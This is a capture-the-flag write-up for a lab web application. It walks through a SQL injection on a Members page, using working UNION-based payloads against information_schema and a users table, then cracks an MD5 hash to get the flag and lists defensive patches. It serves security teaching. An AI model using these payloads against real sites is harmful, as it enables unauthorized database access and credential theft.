 # 💉 SQL Members Injection

## 📖 Definition

An **SQL Injection** breach is a type of cyberattack where an attacker exploits vulnerabilities in a web application’s database query handling by injecting malicious SQL statements into input fields. These injected queries manipulate the database to reveal, alter, or delete sensitive information without proper authorization.

**Key Characteristics of an SQL Injection:**

1. **Database Manipulation:** Attackers inject SQL commands into input fields (e.g., login forms, search bars) to manipulate the database directly, bypassing application logic.

2. **Sensitive Data Exposure:** Exploited queries may reveal critical information such as table structures, user credentials, and other confidential data stored in the database.

3. **Target of Exploitation:** SQL Injection exploits applications that fail to properly sanitize or validate user input before embedding it into SQL queries.

4. **Common Techniques:**
	- **Union-Based Injection:** Combines results from malicious queries with legitimate ones using UNION statements.
	- **Error-Based Injection:** Forces the application to display database errors that reveal useful information.
	- **Blind SQL Injection:** Exploits true/false conditions in the application to deduce database details without direct feedback.

## 🔍 Discovery

When we land on the **Members** page, we see that we can insert some SQL code. We first try to display all users by using `1 or 1=1` and it worked. The, we see this:

```Text
ID: 1 or 1 = 1 
First name: Flag
Surname : GetThe
```

We knew that we just found something so we decided to digg in. First, we try to retrieve the names of all tables in the database thanks to:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables--
```

We get dozen of tables but one was particularly interesting:

```Text
ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables-- 
First name: users
Surname :
```

Then, we try to display the columns of the `users` table thanks to this command:

```sql
1 UNION SELECT column_name, NULL FROM users.columns--
```

But we get:

```Text
SELECT command denied to user 'borntosec'@'localhost' for table 'columns'
```

So we more simply try to display all the columns of the database:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns--
```

And we get a better result, hundreds of results in fact but the last seventeen were the most interesting, the names of these columns are: `username`, `password`, `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`, `id_comment`, `url`, `title`, `id_vote`, `vote`, `nb_vote` and `subject`. It seems to be information about the users. So we start to display all the columns in the order, and we displayed the `Commentaire` column, we get five outputs and the fifth was interesting:

```Text
ID: 1 UNION SELECT Commentaire, NULL FROM users-- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname :
```

Then, we try to display the `countersign` column and the fifth was:

```Text
5ff9d0165b4f92b14994e5c685cdce28
```

So we had the idea to combine both columns (`Commentaire` and `countersign`) with this command:

```sql
1 UNION SELECT Commentaire, countersign FROM users--
```

Then we get:

```Text
ID: 1 UNION SELECT Commentaire, countersign FROM users-- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

After detecting the encryption thanks to the dCode cipher identifier (it was MD5), we decrypt it and get `FortyTwo`, so we lower all the characters and then we encrypt it with SHA-256 and we get our flag!

## 🏁 Flag

1. Go on the **Members** page.
2. Enter `1 UNION SELECT Commentaire, countersign FROM users--`.
3. Decrypt the code using MD5.
4. Lower all the characters.
5. Encrypt the result in SHA-256.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

1. **Use Parameterized Queries (Prepared Statements)**
	- Replace dynamic SQL queries with parameterized queries or prepared statements.
2. **Implement Input Validation and Sanitization**
	- Validate all user inputs to ensure they conform to expected formats (e.g., numbers, email addresses).
	- Sanitize inputs by escaping special SQL characters if direct parameterization is unavailable.
3. **Employ an ORM (Object-Relational Mapping) Framework**
	- Use ORM tools like SQLAlchemy (Python), Hibernate (Java), or Entity Framework (C#) to abstract database interactions.
	- ORMs automatically parameterize queries and reduce the likelihood of injection.
4. **Limit Database Privileges**
	- Follow the Principle of Least Privilege:
		- Assign each application user the minimum permissions necessary.
		- Avoid using highly privileged accounts (e.g., `root`) in application database connections.

## 📚 References

- [SQL Injection (OWASP)](https://owasp.org/www-community/attacks/SQL_Injection)
- [Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [SQL injections (SQLi): principles, impacts, exploitations and security best practices (Vaadata)](https://www.vaadata.com/blog/sql-injections-principles-impacts-exploitations-security-best-practices/)